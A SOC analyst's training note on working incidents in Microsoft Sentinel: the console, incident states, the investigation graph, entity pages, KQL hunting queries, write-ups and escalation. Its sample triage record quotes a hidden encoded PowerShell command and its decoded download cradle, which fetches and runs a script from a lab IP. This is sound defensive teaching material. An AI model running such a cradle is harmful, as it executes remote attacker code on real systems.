


# 04 - Incident Investigation

Working an incident in Sentinel. The console, the investigation graph, entity pages, and the method underneath all of it.

---

## The Console


| # | Element | What it is for |
| --- | --- | --- |
| 1 | Severity, status and owner filters | The first thing you set. Unassigned and open, sorted by severity |
| 2 | Incident list | Title, severity, alert count, entity count, last update |
| 3 | Incident detail pane | Opens on selection. Owner, status, tactics, description |
| 4 | Entities | Accounts, hosts, IPs, files. Every one is a pivot point |
| 5 | Alert timeline | The alerts folded into this incident, in order |
| 6 | Investigate button | Opens the graph |
| 7 | Activity log and comments | Where your triage notes go |
| 8 | Tasks | Checklist attached to the incident, survives handover |

**Callout 4 is where the time is saved.** Entities are clickable. An account entity opens a page with every sign-in, every alert and every device for that account, without writing a query.

---

## Incident Lifecycle



| State | Means | Clock |
| --- | --- | --- |
| **New** | Nobody has claimed it | Time to acknowledge is running |
| **Active** | Owned and being worked | Time to triage is running |
| **Closed: True Positive** | Real, and it was malicious | Stopped |
| **Closed: Benign Positive** | Real, but authorised or expected | Stopped |
| **Closed: False Positive** | Did not happen, or the rule was wrong | Stopped, rule needs work |
| **Closed: Undetermined** | Could not establish either way | Stopped, and this needs a reason |

### Benign positive versus false positive

People conflate these constantly and the difference matters.

**False positive** means the detection was wrong. The thing it described did not happen, or the logic misfired. This is a signal to tune the rule.

**Benign positive** means the detection was right and the activity was authorised. A penetration test that triggers a Kerberoasting rule is a benign positive. The rule worked perfectly.

Closing a benign positive as a false positive implies the rule needs tuning when it does not. Over months that produces a rule set that has been softened for no reason, and a detection that no longer fires when it should.

**Undetermined is a legitimate outcome and it should be rare.** If more than a few percent of incidents close undetermined, the problem is usually missing telemetry rather than analyst skill, and that is worth raising as a gap rather than absorbing.

---

## The Investigation Graph




The graph shows the incident's entities and what connects them. Each node expands to show related entities that are not yet part of the incident.

### How to read it

Start at the entity you are most confident about. Usually that is the host or the account named in the alert title.

Expand outward one hop at a time. The useful exploration options on each node:

| Node type | Ask it for |
| --- | --- |
| **Account** | Devices logged into, sign-ins, alerts, directory changes |
| **Host** | Accounts that logged on, processes, outbound connections, alerts |
| **IP** | Devices that contacted it, accounts that authenticated from it |
| **File hash** | Devices it appeared on, processes that created it |
| **URL** | Devices that reached it, mail that contained it |

**The graph is for scoping, not for proof.** It shows you where to look. The evidence comes from the queries you run afterwards, and those go in the incident comments.

### The scoping question the graph answers fastest

*Which other machines has this account logged onto?*

That one question decides whether you are dealing with one compromised workstation or a spreading intrusion, and the graph answers it in two clicks instead of a join.

---

## The Triage Method

Same three questions as SOC-01, because they do not change with the tooling.

**1. Is it real?** Read the raw event behind the alert, not the alert title.

**2. Is it authorised?** Check the change calendar before anything else.

**3. Is it contained?** How many hosts, how many accounts, still running or finished.

What changes in Sentinel is how fast you can answer question three, because entity mapping has already done most of the scoping for you.

### First five minutes

```text
1. Assign it to yourself. Set status to Active
   Unowned incidents get worked twice or not at all

2. Read the alert title and description
   Custom details are on the incident. Read those before opening logs

3. Read the entities
   How many accounts, how many hosts. This is your scope estimate

4. Check the change calendar

5. Click the primary entity and read its page
   Sign-ins, alerts, devices. No query needed

6. Open the graph, expand one hop

7. Now write a query, if you still need one
```

**Step 7 is last on purpose.** New analysts open the query editor first and spend twenty minutes reconstructing what the entity page would have shown them in ten seconds.

---

## Entity Pages

Clicking an entity opens a page with everything Sentinel knows about it. These are the two worth knowing well.

### Account page

| Section | Contains |
| --- | --- |
| Timeline | Alerts, incidents, sign-ins, directory changes, in order |
| Insights | Sign-in patterns, failed versus successful, unusual locations |
| Related entities | Devices, IPs, applications |
| Watchlist membership | Whether this account is flagged as high value |

The insights panel compares the account against its own 30 day baseline automatically. "This account has never signed in from this country before" is a sentence the page produces without you writing [Q42](02-KQL-Query-Library.md).

### Host page

| Section | Contains |
| --- | --- |
| Timeline | Alerts, logons, processes |
| Insights | Accounts that have logged on, unusual processes |
| Related entities | Accounts, IPs, file hashes |

**The accounts-that-logged-on list is the exposure question.** If a credential dump happened on this host, every account in that list is potentially compromised. That is the list that turns a workstation incident into a domain incident, and it is the step people miss.

---

## Queries That Answer the Standard Questions

The entity page covers most of it. These cover the rest.

### Everything about one user

```kql
let Target = "vbunny@vbunnylab.com";
let Window = 7d;
union isfuzzy=true
    (SigninLogs
     | where UserPrincipalName =~ Target
     | project TimeGenerated, Source = "Signin",
               Detail = strcat(AppDisplayName, " from ", IPAddress, " (", tostring(LocationDetails.countryOrRegion), ")"),
               Result = tostring(ResultType)),
    (AADNonInteractiveUserSignInLogs
     | where UserPrincipalName =~ Target
     | project TimeGenerated, Source = "NonInteractive", Detail = AppDisplayName, Result = tostring(ResultType)),
    (OfficeActivity
     | where UserId =~ Target
     | project TimeGenerated, Source = "Office", Detail = Operation, Result = ResultStatus),
    (AuditLogs
     | where tostring(InitiatedBy.user.userPrincipalName) =~ Target
     | project TimeGenerated, Source = "Directory", Detail = OperationName, Result = tostring(Result)),
    (DeviceProcessEvents
     | where AccountUpn =~ Target
     | project TimeGenerated, Source = "Process", Detail = ProcessCommandLine, Result = DeviceName),
    (DeviceLogonEvents
     | where AccountUpn =~ Target
     | project TimeGenerated, Source = "Logon", Detail = strcat(DeviceName, " type ", LogonType), Result = ActionType)
| where TimeGenerated > ago(Window)
| order by TimeGenerated desc
```

### Exposure: who has logged onto this host

```kql
let Host = "WS11-02";
DeviceLogonEvents
| where TimeGenerated > ago(30d)
| where DeviceName startswith Host
| where ActionType == "LogonSuccess"
| where isnotempty(AccountName)
| where AccountName !endswith "$"
| summarize
    Logons     = count(),
    LogonTypes = make_set(LogonType),
    FirstSeen  = min(TimeGenerated),
    LastSeen   = max(TimeGenerated)
  by AccountName, AccountDomain
| order by Logons desc
```

Type 10 in `LogonTypes` is the one to notice. That is RDP, and an RDP session leaves credential material in memory.

### Process ancestry

```kql
let Device = "WS11-01";
let Start = datetime(2026-09-14 14:00:00);
let End   = datetime(2026-09-14 14:30:00);
DeviceProcessEvents
| where DeviceName startswith Device
| where TimeGenerated between (Start .. End)
| project
    TimeGenerated,
    Process       = FileName,
    CommandLine   = ProcessCommandLine,
    PID           = ProcessId,
    Parent        = InitiatingProcessFileName,
    ParentCmd     = InitiatingProcessCommandLine,
    ParentPID     = InitiatingProcessId,
    GrandParent   = InitiatingProcessParentFileName,
    Account       = AccountName
| order by TimeGenerated asc
```

`InitiatingProcessParentFileName` gives you three generations in one row, which is usually enough to reach the root cause without walking the tree manually.

### Lateral movement from one host

```kql
let Source = "WS11-01";
DeviceLogonEvents
| where TimeGenerated > ago(7d)
| where RemoteDeviceName != "" or isnotempty(RemoteIP)
| where DeviceName startswith Source or RemoteDeviceName startswith Source
| project TimeGenerated, DeviceName, RemoteDeviceName, RemoteIP,
          AccountName, LogonType, ActionType
| order by TimeGenerated asc
```

### Did anything leave

```kql
let Device = "WS11-02";
DeviceNetworkEvents
| where TimeGenerated > ago(24h)
| where DeviceName startswith Device
| where RemoteIPType == "Public"
| summarize
    Connections = count(),
    Processes   = make_set(InitiatingProcessFileName, 10),
    FirstSeen   = min(TimeGenerated),
    LastSeen    = max(TimeGenerated)
  by RemoteIP, RemoteUrl
| order by Connections desc
```

---

## Writing the Incident

Comments on the incident are the record. They are what a colleague reads at handover and what an auditor reads in six months.

### The structure

```text
TRIAGE  14:06  <analyst>

Alert
  SEN-001, Office process WINWORD.EXE spawned powershell.exe on WS11-01

What I found
  Macro in Q3-Invoice-Review.docm executed at 14:02:11.
  Encoded PowerShell, decoded to a download cradle against 10.20.99.10.
  Outbound connection attempted at 14:02:19, blocked by firewall rule.

Evidence
  DeviceProcessEvents  ProcessId 3204, parent 2180 (WINWORD.EXE)
  Command line: powershell.exe -nop -w hidden -enc SQBFAFgA...
  Decoded: IEX(New-Object Net.WebClient).DownloadString('http://10.20.99.10:8080/u.ps1')
  SHA256 of docm: a3f1...

Checked and clean
  No other device executed the same command line
  No other device contacted 10.20.99.10
  No persistence created by PID 3204 or its children
  vbunny holds no privileged role
  Defender healthy, no exclusions added

Actions
  14:07  Device isolation requested via PB-Isolate-Device
  14:09  Escalated to Tier 2

Disposition
  True positive. Escalated.
```

**"Checked and clean" is the section that separates a useful record from a thin one.** Most analysts record only what was wrong, which means every negative result gets rediscovered by the next person.

### Tasks

Sentinel incident tasks are a checklist attached to the incident. They survive handover, which comments do not, because a comment is read once and a task is visibly incomplete.

Standard tasks on a device compromise incident:

```text
[ ] Entity scope confirmed, all hosts and accounts listed
[ ] Change calendar checked
[ ] Process ancestry traced to root cause
[ ] Exposure list built for every affected host
[ ] Persistence checked: registry, tasks, services, startup
[ ] Outbound connections reviewed
[ ] Containment actions recorded with timestamps
[ ] User contacted
[ ] Disposition set with a specific reason
```

The user contact task is there because it gets forgotten. In [IR-2026-014](../Junior-SOC-Analyst/07-Incident-Report.md) nobody spoke to the affected user for fifty minutes, and they could have identified the phishing email in seconds.

---

## Escalation

### When

| Trigger | Escalate to |
| --- | --- |
| Any credential access alert | Tier 2, immediately, no exceptions |
| More than one host involved | Tier 2 |
| Any privileged account involved | Tier 2 |
| Confirmed data movement outbound | Tier 2 and incident lead |
| Containment needed beyond your authority | Tier 2 |
| Two hours with no conclusion | Tier 2 |

That last one is a real criterion. An analyst who spends four hours on an incident they cannot resolve has cost more than an escalation would have.

### What to hand over

```text
What the alert said
What I confirmed happened, with evidence
What I ruled out, and how
Current scope: hosts, accounts, timeframe
Actions already taken, timestamped
What I would do next
What the user has been told
```

**A good escalation means the next person does not start over.** A bad one moves the ticket and restarts the clock, and the user repeats their whole story to a second person.

Stay on incidents you escalate. They are still yours until somebody else has visibly picked them up.

---

## Mistakes Worth Recording

**Opening the query editor first.** Twenty minutes reconstructing what the entity page shows in ten seconds. Read the entity page first, always.

**Closing benign positives as false positives.** Did this twice early on. It makes the rule look worse than it is and invites tuning that should not happen.

**Not reading custom details.** The rule already surfaces the command line, the parent process and the hash on the incident. Going to the raw logs for fields that are already in front of you is wasted time, and it is why [03-Analytics-Rules.md](03-Analytics-Rules.md) configures custom details on every rule.

**Working strictly by severity.** A Medium alert on a host that already has a High open is not a Medium. Sentinel groups them into one incident when entity mapping is configured, which is another reason entity mapping matters.

---

Next: [05-Phishing-Analysis.md](05-Phishing-Analysis.md)
